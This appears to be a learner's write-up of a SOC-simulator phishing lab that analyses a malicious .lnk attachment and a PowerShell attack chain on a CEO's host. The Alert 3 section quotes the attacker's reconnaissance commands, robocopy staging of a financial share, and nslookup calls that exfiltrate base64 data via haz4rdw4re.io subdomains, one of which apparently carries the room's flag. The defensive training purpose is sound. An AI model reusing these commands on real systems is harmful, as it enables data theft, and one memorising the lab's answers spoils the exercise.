



# SOC-Simulator Phishing Analysis Room

## Room Description

**Room Name:** Phishing Unfold

**SIEM Tool:** Splunk

**Scenario Objectives**

* Monitor and analyse real-time alerts as the attack unfolds.
* Identify and document critical events such as PowerShell executions, reverse shell connections, and suspicious DNS requests.
* Create detailed case reports based on your observations to help the team understand the full scope of the breach.

**Company Information**

|       Name       |    Role   |             Email            | Logged-in Host |   |
|:----------------:|:---------:|:----------------------------:|:--------------:|---|
| Michael Ascot    | CEO       | michael.ascot@tryhatme.com   | win-3450       |   |
| Sophie J         | HR        | sophie.j@tryhatme.com        | win-3461       |   |
| Michelle Smith   | Legal     | michelle.smith@tryhatme.com  | win-3459       |   |
| Roger Fedora     | Marketing | roger.fedora@tryhatme.com    | win-3460       |   |
| Yani Zubair      | IT        | yani.zubair@tryhatme.com     | win-3449       |   |
| Miguel O'Donnell | Sales     | miguel.odonnell@tryhatme.com | win-3451       |   |
| Cain Omoore      | Sales     | cain.omoore@tryhatme.com     | win-3452       |   |
| Kyra Flores      | Sales     | kyra.flores@tryhatme.com     | win-3453       |   |
| Amna Espinoza    | Sales     | amna.espinoza@tryhatme.com   | win-3454       |   |
| Ashwin Johnston  | Sales     | ashwin.johnston@tryhatme.com | win-3455       |   |
| Safa Prince      | Sales     | safa.prince@tryhatme.com     | win-3456       |   |
| Diego Summers    | Sales     | diego.summers@tryhatme.com   | win-3457       |   |
| Armaan Terry     | Sales     | armaan.terry@tryhatme.com    | win-3458       |   |

**Alerts to Traige:** 40 alerts  

### Alert Detection and Triage

#### Alert 6: Phishing Email Attachment CEO

**Timestamp** should be collected from the dashboard

**Affected Entities:** WIN-3450 (CEO - Micheale Ascot) 

**Email Box Compromised:** michael.ascot@tryhatme.com

- Contains attachment: FinancialRecord.zip
- AV Detection: Clean

File Extraction successfull, and AV scan conducted for precise analysis

**AV Detection:** Malacious

File Information
Name: invioce.pdf.lnk
Size: 243 Bytes
Type: application/octet-stream
Last Modified: 10/16/2026, 8:45:03 PM

**Hash Values**
MD5: ed1dc2d678743fcbedf0d743e27d0362

**SHA-1:** 1515b10b441acf4e789cc37eaf979bb576157d83

**SHA-256:** 50e5bf8361df2442546f21e08b1561273f4ccc610258f622ac1a4b8ebf0a0386

**Additional Metadata**

extension: .lnk

is_archive: false

is_executable: false

#### Alert 3: Network Drive mapped and Disconnected from Local File

**Alert Triaged as True Positive**

The number of detected alerts with respect to the parent name (net.exe) is 4 in total which is a result of running powershell.exe as a parent process on the host. This activity was detected first at: 10/06/2026 14:53:15.535

The real parent process is at: powershell.exe and number of alerts generated with respect to it is: 18, which was executed on the host (win 3450) Michael Ascot - CEO 

**Reason for Alert as True Positive:**

The processes that are run are sequential and are a way to extract information for the victim over here, which in this case is the CEO. This is a list of commands that are run; they are all Windows commands and suspicious commands, given as follows, which then end up causing changes in the registry keys of the CEO's machine. In total, 90 events were recorded with respect to this particular parent process. 

The cause of the script running is via: PowerShellview.ps1 on the host

The Command Line activities ran: 

- "C:\Windows\system32\systeminfo.exe"

- "C:\Windows\system32\whoami.exe" # Understanding the user
- "C:\Windows\system32\whoami.exe" /priv #privelidges
- "C:\Windows\system32\net.exe" user #current user Details
- "C:\Windows\system32\net.exe" localgroup 

- "C:\Windows\system32\net.exe" use Z: \\FILESRV-01\SSF-FinancialRecords # File targeted for extraction from host 
- "C:\Windows\system32\Robocopy.exe" . C:\Users\michael.ascot\downloads\exfiltration /E #Exfiltration activiity detected
- "C:\Windows\system32\net.exe" use Z: /delete #network mapping via dns
- "C:\Windows\system32\nslookup.exe" 8KKEotTs0rSSzJzM8zMjAy1isoKKkA.haz4rdw4re.io #dns server used for exfiltration 
- "C:\Windows\system32\nslookup.exe" nLz8nMDy7NzU0sqtSryCmu4OVyprsk.haz4rdw4re.io #dns server used for exfiltration 
- "C:\Windows\system32\nslookup.exe" AdAAAAHQAAAEludmVzdG9yUHJlc2Vu.haz4rdw4re.io
- "C:\Windows\system32\nslookup.exe" 8AAAAbAAAAQ2xpZW50UG9ydGZvbGlv.haz4rdw4re.io
- "C:\Windows\system32\nslookup.exe" U3VtbWFyeS54bHN4c87JTM0rCcgvKk.haz4rdw4re.io
- "C:\Windows\system32\nslookup.exe" UEsDBBQAAAAIANigLlfVU3cDIgAAAI.haz4rdw4re.io
- "C:\Windows\system32\nslookup.exe" AFBLAwQUAAAACAC9oC5XHhlO5R8AAA.haz4rdw4re.io
- "C:\Windows\system32\nslookup.exe" dGF0aW9uMjAyMy5wcHR488wrSy0uyS.haz4rdw4re.io
- "C:\Windows\system32\nslookup.exe" VEhNezE0OTczMjFmNGY2ZjA1OWE1Mm.haz4rdw4re.io
- "C:\Windows\system32\nslookup.exe" RmYjEyNGZiMTY1NjZlfQ==.haz4rdw4re.io

 The attackers script in this case script tried to know about the users infomration, find the local group i.e  manages or lists Windows local security groups, and tried to conduct lateral movement and data exfiltration. as it aims to use another network given as FILESRV, then the attacker sneaks into delete the Z: networking server where it was suppose to pass on the file, and it goes ahead to do various other powershell command execution from nslookup of a suspicious server.
 

The script running in place is to find the targeted data the SSF-FinancialRecords were technically sent via DNS as DNS is a valid protocol which is used and often bypasses the firewall filter. These commands must be inspected carefully and probably the server to which the lookup happen is most likely a DNS Data Exfiltration Attack.

**Reason for Escalation of Alert**

- Registry keys were modified; pipeline execution has also taken place on the CEO's device; the attacker ran about  90 events means 90 different command were seen to be executed on the affected host. 
- 40 different Pipeline execution also detected on the same host

**Recommended course of Action:** 
- Isolate the host
- Block the Server domain, and its set of IP address
- Block the IP address of the user
- Ensure that any suspicious process like a net.exe file is running these specific kind of commands should prevent from taking place, via the windows defender

Alert Escalation Required.

### Results

I feel I can make a lot of more and better effort on identifying the alerts, trying to analyze the logs properly in such a way using Splunk. Trying to understand the scope of the attack, how the attack works, what takes place on the network and how it reflects on the endpoint. 

Being a part of this challenge means you get to learn the attack, the scope of the attack and how things works in detail. This really was a great hands on challenge for me to learn and lead the life of a soc analyst at its peak moment and hence that is why I would love to learn, practice, challenge myself more by trying out like these challenges. 

